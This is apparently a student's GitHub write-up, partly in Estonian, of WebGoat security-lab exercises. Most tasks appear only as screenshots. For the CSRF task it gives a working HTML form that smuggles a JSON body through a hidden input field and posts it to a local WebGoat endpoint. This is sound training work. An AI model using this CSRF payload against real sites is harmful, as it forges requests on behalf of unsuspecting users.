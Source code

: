 1-3 Client side) kolm tükki ![image](https://github.com/JoosepPodekrat/Andmeturve2024/assets/144919619/4e4f8a9b-e16b-4b7b-bed6-3f024e56f1d8)<br>
4 SQL Injection intro) ![image](https://github.com/JoosepPodekrat/Andmeturve2024/assets/144919619/dd4e4cf4-5b91-4cd8-a4ce-5007e6e60059)<br>
5 Crypto basics) ![image](https://github.com/JoosepPodekrat/Andmeturve2024/assets/144919619/88f2f3a5-65fe-4830-a3fe-878531c3503b)<br>
6 Insecure direct object references) ![image](https://github.com/JoosepPodekrat/Andmeturve2024/assets/144919619/267f158e-ffb9-4390-ad09-4f357c005a13)<br>
7 XXE) ![image](https://github.com/JoosepPodekrat/Andmeturve2024/assets/144919619/9f4fc329-69cd-4a38-bd09-780c72250378)<br>
8 CSRF) Kuna webwolfi .html faili üleslaadimisega on mingi probleem, millele internetist lahendust ei leidnud, siis ei saa seda lõpuni teha, aga postitan lahenduskäigu, mis peaks töötama. Ilmselt on asi zapi pakettide kinni püüdmises.
HTML kood, mis failis olema peaks:
127.0.0.1 on minu kali IP.
```html
<form enctype="text/plain" method="POST" action="http:/127.0.0.1:8080/WebGoat/csrf/feedback/message">
	<input type="hidden" name='{"name": "WebGoat", "email": "webgoat@webgoat.org", "content": "WebGoat is the best!!", "ignoreme":"' value='sdfsdfdf"}'>
	<button>submit</button>
</form>
```
Pärast sellel lehel nupu vajutamist ja paketti kinni püüdmist peaks vastus olema loetav zapis inimloetaval kujul.
![image](https://github.com/JoosepPodekrat/Andmeturve2024/assets/144919619/95c22a2f-05fd-4956-944a-8c154ecb82d6)


